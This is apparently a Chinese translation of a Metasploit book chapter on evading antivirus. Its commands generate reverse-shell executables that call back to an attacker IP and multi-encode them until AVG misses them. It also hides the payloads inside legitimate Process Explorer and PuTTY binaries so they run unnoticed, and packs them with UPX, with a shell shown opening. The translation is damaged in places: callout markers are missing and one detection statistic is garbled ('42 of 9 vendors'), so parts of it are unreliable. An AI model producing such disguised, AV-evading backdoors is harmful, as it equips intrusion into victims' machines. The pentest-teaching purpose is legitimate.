


## 第七章：避免检测

当你进行渗透测试时，没有什么比被防病毒软件抓住更尴尬的了。这是那些容易被忽视的小细节之一：如果你没有计划规避防病毒软件的检测，小心，因为你的目标会很快意识到有些不对劲。在本章中，我们将讨论防病毒软件可能成为问题的情况，并讨论可能的解决方案。

大多数防病毒软件使用 *签名* 来识别恶意软件样本中存在的恶意代码方面。这些签名被加载到防病毒引擎中，然后用于扫描磁盘存储和运行进程以查找匹配项。当找到匹配项时，防病毒软件会采取某些步骤来应对这种情况：大多数会将二进制文件隔离或终止正在运行的进程。

如你所想，这个模型存在扩展性问题。一方面，野外的恶意代码数量意味着带有签名的防病毒产品只能如此快速地检查文件以匹配签名。此外，签名必须足够具体，以便仅在它们遇到真正恶意程序时触发，而不是合法软件。这种模型相对容易实现，但在实践中提供的成功有限。

话虽如此，防病毒出版商正在赚取大量金钱，许多聪明而有才华的人在这个行业中工作。如果你计划使用非定制的有效载荷，你可以预期防病毒软件会检测到它。

为了规避防病毒软件，我们可以创建独特的有效载荷，在受防病毒软件保护的系统上运行，而不会匹配任何可用的签名。此外，当我们对系统进行直接利用时，Metasploit 有效载荷被设计为在内存中运行，而不会将数据写入硬盘。当我们将有效载荷作为利用的一部分发送时，大多数防病毒程序都不会检测到它在目标上已运行。

而不是关注本章中的特定命令，我们将关注底层概念。考虑可能触发防病毒软件的特性，并尝试使用这里介绍的技术更改代码部分，以便它们不再匹配防病毒签名。不要害怕实验。

## 使用 MSFpayload 创建独立二进制文件

在我们执行防病毒规避之前，让我们看看如何使用 *msfpayload* 创建独立的 Metasploit 二进制有效载荷。首先，我们将创建一个简单的反向 shell，它连接回攻击者并启动一个命令行 shell。我们将使用 `msfpayload` 和 `windows/shell_reverse_tcp`。但首先，让我们使用 `O` 标志查看 `shell_reverse_tcp` 有效载荷的可用选项，如图  所示。

```
root@bt:/# `msfpayload windows/shell_reverse_tcp O` 

`. . . SNIP . . .`

Basic options:
Name      Current Setting  Required  Description
----      ---------------  --------  -----------
EXITFUNC  process          yes       Exit technique: seh, thread, process
LHOST                      yes       The local address
LPORT     4444             yes       The local port
```

现在，让我们再次运行 `msfpayload` 并提供创建此有效载荷所需的选项，以在 Windows 可移植可执行文件 (PE) 格式下创建它。为此，我们提供 `X` 选项，如图  所示，作为我们的输出格式：

```
root@bt:/# `msfpayload windows/shell_reverse_tcp LHOST=192.168.1.101 LPORT=31337 X`
  `>`
    `/var/www/payload1.exe`
root@bt:/# `file /var/www/payload1.exe`
var/www/payload1.exe: MS-DOS executable PE  for MS Windows (GUI) Intel 80386 32-bit
```

现在我们有一个可工作的可执行文件，因此我们可以使用 *msfconsole* 中的 *multi/handler* 模块启动监听器。*multi/handler* 允许 Metasploit 监听反向连接。

```
msf > `use exploit/multi/handler` 
msf exploit(handler) > `show options` 

`. . . SNIP . . .`

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique: seh, thread, process
   LHOST     192.168.1.101    yes       The local address
   LPORT     4444             yes       The local port

`. . . SNIP . . .`

msf exploit(handler) > `set PAYLOAD windows/shell_reverse_tcp` 
PAYLOAD => windows/shell_reverse_tcp
msf exploit(handler) > `set LHOST 192.168.1.101` 
LHOST => 192.168.1.101
msf exploit(handler) > `set LPORT 31337` 
LPORT => 31337
msf exploit(handler) >
```

我们首先使用 *multi/handler* 模块在  并快速显示选项在 。然后，我们将有效载荷设置为 Windows 反向 shell 在 ，以便它与之前创建的可执行文件的行为相匹配，告诉它 IP 地址在  和监听端口在 ，然后我们就可以开始了。

## 避免杀毒软件检测

在以下示例中，我们将使用流行的 AVG 杀毒软件产品。由于绕过某些杀毒引擎可能需要一些时间和多次尝试，在我们尝试部署有效载荷之前，我们检查杀毒解决方案以确保有效载荷能够通过它，然后再将其部署到目标上。

在这种情况下，当我们用 AVG 测试我们的有效载荷时，我们看到它被检测到了，如图 图 7-1 所示。

图 7-1. AVG 检测到我们的有效载荷。

### 使用 MSFencode 进行编码

避免被杀毒软件阻止的最好方法之一是使用 *msfencode* 对我们的有效载荷进行编码。*Msfencode* 是一个有用的工具，它改变了可执行文件中的代码，使其对杀毒软件看起来不同，但仍然以相同的方式运行。就像电子邮件中的二进制附件被编码为 Base64 一样，*msfencode* 将原始可执行文件编码为新的二进制文件。然后，当可执行文件运行时，*msfencode* 将原始代码解码到内存中并执行它。

您可以使用 `msfencode -h` 来查看 *msfencode* 的使用选项列表。在 *msfencode* 的选项中，编码器格式是最重要的。为了列出编码器格式，我们使用 `msfencode -l`，如下所示。请注意，不同的编码器用于不同的平台，因为例如，Power PC (PPC) 编码器在 x86 平台上无法正确运行，因为两种架构之间存在差异。

```
root@bt:/opt/framework3/msf3# `msfencode -l`

Framework Encoders
==================

    Name                    Rank       Description
    ----                    ----       -----------
    cmd/generic_sh          good       Generic Shell
 Variable Substitution Command Encoder
    cmd/ifs                 low        Generic ${IFS} Substitution Command Encoder
    generic/none            normal     The "none" Encoder
    mipsbe/longxor          normal     XOR Encoder
    mipsle/longxor          normal     XOR Encoder
    php/base64              normal     PHP Base64 encoder
    ppc/longxor             normal     PPC LongXOR Encoder
    ppc/longxor_tag         normal     PPC LongXOR Encoder
    sparc/longxor_tag       normal     SPARC DWORD XOR Encoder
    x64/xor                 normal     XOR Encoder
    x86/alpha_mixed         low        Alpha2 Alphanumeric Mixedcase Encoder
    x86/alpha_upper         low        Alpha2 Alphanumeric Uppercase Encoder
    x86/avoid_utf8_tolower  manual     Avoid UTF8/tolower
    x86/call4_dword_xor     normal     Call+4 Dword XOR Encoder
    x86/countdown           normal     Single-byte XOR Countdown Encoder
    x86/fnstenv_mov         normal     Variable-length Fnstenv/mov Dword XOR Encoder
    x86/jmp_call_additive   normal     Jump/Call XOR Additive Feedback Encoder
    x86/nonalpha            low        Non-Alpha Encoder
    x86/nonupper            low        Non-Upper Encoder
    `x86/shikata_ga_nai      excellent  Polymorphic XOR Additive Feedback Encoder`
    x86/single_static_bit   manual     Single Static Bit
    x86/unicode_mixed       manual     Alpha2 Alphanumeric Unicode Mixedcase Encoder
    x86/unicode_upper       manual     Alpha2 Alphanumeric Unicode Uppercase Encoder
```

现在我们将运行一个简单的 MSF 有效载荷编码，通过将 *msfpayload* 的原始输出导入到 *msfencode* 中，以查看结果如何影响我们的杀毒软件检测：

```
root@bt:/# `msfpayload windows/shell_reverse_tcp LHOST=192.168.1.101 LPORT=31337 R`
  `|`
    `msfencode -e x86/shikata_ga_nai`  `-t exe` 
 `> /var/www/payload2.exe`
[*] x86/shikata_ga_nai succeeded with size 342 (iteration=1)

root@bt:/# `file /var/www/payload2.exe` 
/var/www/2.exe: MS-DOS executable PE for MS Windows (GUI) Intel 80386 32-bit
```

我们在`msfpayload`命令行中添加了`R`标志，如所示，以指定原始输出，因为我们将会将其输出直接管道输入到*msfencode*。我们在处指定了`x86/shikata_ga_nai`编码器，并告诉*msfencode*将可执行输出`-t exe`发送到`/var/www/payload2.exe`。最后，我们在处进行快速检查，以确保生成的文件实际上是一个 Windows 可执行文件。响应告诉我们确实是。不幸的是，在将*payload2.exe*文件复制到 Windows 系统后，AVG 再次检测到我们的编码有效载荷，如图图 7-2 所示。

图 7-2. AVG 检测到我们的编码有效载荷。

### 多编码

当我们在不修改静态二进制文件本身的情况下执行防病毒检测时，总是一场猫捉老鼠的游戏，因为防病毒签名通常会更新以检测新的和更改后的有效载荷。在框架中，我们可以通过*多编码*获得更好的结果，这允许有效载荷被编码多次，以迷惑检查签名的防病毒程序。

在前面的示例中，`shikata_ga_nai`编码是**多态的**，这意味着每次运行脚本时有效载荷都会改变。当然，防病毒产品会标记的有效载荷是一个谜：每次生成有效载荷时，相同的防病毒程序可能会标记它一次，而另一次则错过。

建议您在使用渗透测试之前，使用产品的评估版测试您的脚本，以查看它是否绕过了防病毒软件。以下是一个使用多次编码的示例：

```
root@bt:/opt/framework3/msf3# `msfpayload windows/meterpreter/reverse_tcp`
   `LHOST=192.168.1.101 LPORT=31337 R | msfencode -e x86/shikata_ga_nai -c 5` 
    `-t raw`  `| msfencode  -e x86/alpha_upper -c 2` 
 `-t raw | msfencode -e`
    `x86/shikata_ga_nai -c 5` 
 `-t raw | msfencode -e x86/countdown -c 5`

    `-t exe -o /var/www/payload3.exe`
[*] x86/shikata_ga_nai succeeded with size 318 (iteration=1)
[*] x86/shikata_ga_nai succeeded with size 345 (iteration=2)
[*] x86/shikata_ga_nai succeeded with size 372 (iteration=3)
[*] x86/shikata_ga_nai succeeded with size 399 (iteration=4)
[*] x86/shikata_ga_nai succeeded with size 426 (iteration=5)
[*] x86/alpha_upper succeeded with size 921 (iteration=1)
[*] x86/alpha_upper succeeded with size 1911 (iteration=2)
[*] x86/shikata_ga_nai succeeded with size 1940 (iteration=1)
[*] x86/shikata_ga_nai succeeded with size 1969 (iteration=2)
[*] x86/shikata_ga_nai succeeded with size 1998 (iteration=3)
[*] x86/shikata_ga_nai succeeded with size 2027 (iteration=4)
[*] x86/shikata_ga_nai succeeded with size 2056 (iteration=5)
[*] x86/countdown succeeded with size 2074 (iteration=1)
[*] x86/countdown succeeded with size 2092 (iteration=2)
[*] x86/countdown succeeded with size 2110 (iteration=3)
[*] x86/countdown succeeded with size 2128 (iteration=4)
[*] x86/countdown succeeded with size 2146 (iteration=5)
root@bt:/opt/framework3/msf3#
```

在这里，我们在处使用五次`shikata_ga_nai`，将原始格式的代码在处输入到两次`alpha_upper`编码在处，然后将其输入到另一个五次的`shikata_ga_nai`处，接着是五次的`countdown`编码在处，最后将输出导向所需的可执行文件。我们总共使用了 17 次编码循环，试图绕过防病毒软件。正如您在图 7-3 中可以看到的，我们已经成功地将我们的有效载荷绕过了防病毒引擎。

图 7-3. AVG 未检测到多编码有效载荷。

## 自定义可执行模板

通常，当运行`msfencode`时，有效载荷会被嵌入到默认的可执行文件模板`*data/templates/template.exe*`中。尽管这个模板偶尔会更改，但防病毒供应商在构建签名时仍然会寻找它。然而，`msfencode`现在支持通过`-x`选项使用任何 Windows 可执行文件作为默认可执行文件模板。在下面的示例中，我们再次使用微软 Sysinternals Suite 中的 Process Explorer 作为自定义可执行文件模板来编码我们的有效载荷。

```
root@bt:/opt/framework3/msf3# `wget  http://download.sysinternals.com/Files/`
    `ProcessExplorer.zip` 

`. . . SNIP . . .`

2011-03-21 17:14:46 (119 KB/s) - 'ProcessExplorer.zip' saved [1615732/1615732]

root@bt:/opt/framework3/msf3# `cd work/`
root@bt:/opt/framework3/msf3/work# `unzip ../ProcessExplorer.zip` 
Archive:  ../ProcessExplorer.zip
  inflating: procexp.chm
  inflating: procexp.exe
  inflating: Eula.txt
root@bt:/opt/framework3/msf3/work# `cd ..`
root@bt:/opt/framework3/msf3# `msfpayload windows/shell_reverse_tcp`
     `LHOST=192.168.1.101 LPORT=8080 R | msfencode -t exe -x work/procexp.exe`

     `-o /var/www/pe_backdoor.exe -e x86/shikata_ga_nai -c 5`
[*] x86/shikata_ga_nai succeeded with size 342 (iteration=1)
[*] x86/shikata_ga_nai succeeded with size 369 (iteration=2)
[*] x86/shikata_ga_nai succeeded with size 396 (iteration=3)
[*] x86/shikata_ga_nai succeeded with size 423 (iteration=4)
[*] x86/shikata_ga_nai succeeded with size 450 (iteration=5)
```

如你所见，在中，我们下载了微软的 Process Explorer，然后在处解压它。然后在处，我们使用`-x`开关指定下载的 Process Explorer 二进制文件作为我们的自定义模板。编码完成后，我们通过`msfcli`启动多处理器以监听传入的连接，如下所示：

```
root@bt:/opt/framework3/msf3# `msfcli exploit/multi/handler PAYLOAD=windows/`
    `shell_reverse_tcp LHOST=192.168.1.101 LPORT=8080 E`
[*] Please wait while we load the module tree...
[*] Started reverse handler on 192.168.1.101:8080
[*] Starting the payload handler...
[*] Command shell session 1 opened (192.168.1.101:8080 -> 192.168.1.195:1191)

C:\Documents and Settings\Administrator\My Documents\Downloads>
```

哇！我们已经成功打开了一个 shell，而不会被防病毒软件检测到。

图 7-4. 被后门化的可执行文件未被 AVG 检测到。

## 悄悄地启动有效载荷

对于大多数情况，当目标用户启动我们刚刚生成的后门化可执行文件时，似乎没有任何事情发生，这可能会引起怀疑。为了提高你不引起目标注意的机会，你可以在同时继续启动应用程序的正常执行时启动有效载荷，如下所示：

```
root@bt:/opt/framework3/msf3# `wget http://the.earth.li/˜sgtatham/`
    `putty/latest/x86/putty.exe` 

`. . . SNIP . . .`

2011-03-21 17:02:48 (133 KB/s) - 'putty.exe' saved [454656/454656]
root@bt:/opt/framework3/msf3# `msfpayload windows/shell_reverse_tcp`
    `LHOST=192.168.1.101 LPORT=8080 R | msfencode -t exe -x putty.exe -o /var/`
    `www/putty_backdoor.exe -e x86/shikata_ga_nai -k`  `-c 5`
[*] x86/shikata_ga_nai succeeded with size 342 (iteration=1)
[*] x86/shikata_ga_nai succeeded with size 369 (iteration=2)
[*] x86/shikata_ga_nai succeeded with size 396 (iteration=3)
[*] x86/shikata_ga_nai succeeded with size 423 (iteration=4)
[*] x86/shikata_ga_nai succeeded with size 450 (iteration=5)
```

在这个列表中，我们在处下载了 PuTTY Windows SSH 客户端，然后在处使用`-k`标志访问 PuTTY。`-k`标志配置有效载荷在主可执行文件之外的新线程中启动，这样在有效载荷执行时应用程序将表现得正常。现在，如图 7-5 所示，当这个可执行文件通过 AVG 处理时，它会干净地返回，并且应该执行，同时仍然为我们提供一个 shell！（这个选项可能不适用于所有可执行文件，所以在部署之前务必测试你的。）

当选择在可执行文件中嵌入有效载荷时，如果你没有指定`-k`标志，你应该考虑使用基于 GUI 的应用程序。如果你将有效载荷嵌入到基于控制台的应用程序中，当有效载荷运行时，它将显示一个控制台窗口，直到你完成对有效载荷的使用，这个窗口才不会关闭。如果你选择基于 GUI 的应用程序并且没有指定`-k`标志，当有效载荷执行时，目标将不会看到控制台窗口。注意这些小细节可以帮助你在行动中保持隐蔽。

图 7-5. AVG 声明有效载荷安全且计算机安全。

## Packers

*打包程序*是压缩可执行文件并将其与解压缩代码结合的工具。当这个新的可执行文件运行时，解压缩代码会在执行之前从压缩代码中重新创建原始的可执行文件。这通常是无缝发生的，因此压缩的可执行文件可以像原始文件一样使用。打包过程的结果是一个更小的可执行文件，它保留了原始文件的所有功能。

与*msfencode*一样，打包程序会改变可执行文件的结构。然而，与通常会增加可执行文件大小的*msfencode*编码过程不同，一个精心选择的打包程序将使用各种算法来压缩和加密可执行文件。接下来，我们使用流行的*UPX*打包程序与 Back|Track 一起压缩和编码我们的*payload3.exe*有效载荷，以尝试规避防病毒软件的检测。

```
root@bt:/# `apt-get install upx` 

`. . . SNIP . . .`

root@bt:/# `upx` 
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2009
UPX 3.04         Markus Oberhumer, Laszlo Molnar & John Reiser   Sep 27th 2009

Usage: upx [-123456789dlthVL] [-qvfk] [-o file] file..

`. . . SNIP . . .`

Type 'upx--help' for more detailed help.
UPX comes with ABSOLUTELY NO WARRANTY; for details visit http://upx.sf.net
root@bt:/# `upx −5 /var/www/payload3.exe` 
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2009
UPX 3.04         Markus Oberhumer, Laszlo Molnar & John Reiser   Sep 27th 2009

   File size              Ratio      Format        Name
   --------------------   ------     -----------   -----------
   37888 ->     22528     59.46%   win32/pe      payload3.exe

Packed 1 file.
```

在处我们安装*UPX*，然后在处我们不带参数运行*UPX*以查看其命令行选项。然后在处我们使用`−5`选项来压缩和打包我们的可执行文件。您可以在处看到*UPX*将我们的有效载荷压缩了 59.46%。

在我们的测试中，只有 9 家防病毒供应商中的 42 家检测到了*UPX*打包的二进制文件。

* * *

### 注意

PolyPack 项目([`jon.oberheide.org/files/woot09-polypack.pdf`](http://jon.oberheide.org/files/woot09-polypack.pdf))展示了使用各种打包程序打包已知恶意二进制文件的结果，以及打包前后防病毒检测的效果。

* * *

* * *

### Msf Venom

在本章中，我们只介绍了*msfpayload*和*msfencode*工具，但还有一个名为*msfvenom*的工具，它将*msfpayload*和*msfencode*的功能结合在一个更易于使用的界面中。*Msfvenom*在本书中没有详细介绍（见附录 B），但在熟悉*msfpayload*和*msfencode*之后，使用它应该非常简单。

* * *

## 关于防病毒软件规避的最后一则笔记

防病毒软件的世界变化非常快，即使是按照互联网标准。截至本文撰写时，本章中记录的方法和过程都成功有效；然而，经验表明，即使几个月的时间也可能带来防病毒规避方式的重大变化。尽管 Metasploit 团队不断调整其有效载荷并试图领先于检测算法一步，但在您完成这些示例时，有些可能有效，有些可能无效，这并不奇怪。当您尝试防病毒规避时，请考虑使用多个打包程序或编码器，如前所述，或者编写自己的。防病毒规避，就像所有渗透测试技能一样，需要练习并需要专门的研究，以帮助您确保在您的任务中取得成功。
